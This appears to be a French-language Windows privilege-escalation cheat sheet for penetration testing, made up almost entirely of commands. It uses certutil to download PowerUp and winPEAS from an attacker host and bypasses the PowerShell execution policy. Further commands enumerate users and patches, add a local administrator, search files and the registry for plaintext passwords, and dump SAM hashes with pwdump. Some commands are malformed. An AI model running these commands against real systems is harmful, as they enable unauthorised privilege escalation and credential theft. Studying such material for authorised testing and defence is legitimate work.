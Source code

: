 ### Permissions de fichier
F> Accès complet | M> Accès de modification | RX> Accès en lecture et exécution | R> Accès en lecture seule | W> Accès en écriture seule

```bash
icacls "C:\xampp\apache\bin\fida.exe" # (vérifier les permissions)
```

### Outils automatisés
#### Powerup
```bash
certutil.exe -urlcache -split -f http://192.168.10.10/PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks # (vérifiez toutes les vulnérabilités possibles sauf passwd en clair)
```

#### Winpeas.exe (tout, y compris passwd en clair)
```bash
# Windpeas.exe Si .net 4.5 (exécutez sinon)
certutil.exe -urlcache -split -f http://192.168.10.10:8080/winPEASx64.exe
.\winPEASx64.exe
```

### Énumération manuelle
```bash
Systeminfo # OU systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
Hostname | Whoami | wmic qfe # (mises à jour et correctifs, etc.)
Wmic logicaldisk # (lecteurs)
echo %USERNAME% || whoami # puis $env:username
Net user | net user noman
Net localgroup | net localgroup noman
netsh firewall show state # (pare-feu)
Whoami /priv
Ipconfig | ipconfig /all
netstat -ano | route print
Powershell | Get-LocalUser | Get-LocalGroup | Get-LocalGroupMember Administrators
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname # (vérifier le logiciel avec version 32 bits et ci-dessous 64)
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-Process
# Si RDP est activé ou que nous l'activons, ajoutez ceci
net localgroup administrators /add
# Installation Windows sans surveillance (anciens fichiers d'utilisateur et de passe puis crack)
dir /s sysprep.inf sysprep.xml unattended.xml unattend.xml *unattended.txt 2>null
```

### Mine d'Or Mot de passe/texte en clair

#### 1ère Technique (Mot de passe commun)
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
- Emplacement lisible |
  ```bash
  findstr /si password .txt | .xml | *.ini
  ```
- Registre | (SI VNC installé)
  ```bash
  reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # (autologin)
  ```
- Configuration | fichiers avec winpeas
- SAM | winpeas (recherche de sauvegardes communes Sam et System)
- Machine attaquante déplace puis décrypte avec l'outil creddump-master
  ```bash
  ./pwdump.py SYSTEM SAM
  ```